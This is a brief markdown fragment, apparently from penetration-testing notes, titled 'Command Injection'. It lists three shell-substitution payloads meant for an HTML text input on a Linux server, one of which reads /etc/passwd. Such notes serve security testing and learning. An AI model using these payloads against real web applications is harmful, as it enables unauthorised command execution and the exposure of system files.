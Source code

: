 # Command Injection

```bash
# In HTML Input text (server with linux)
$(id)
$(pwd)
$(cat /etc/passwd)
```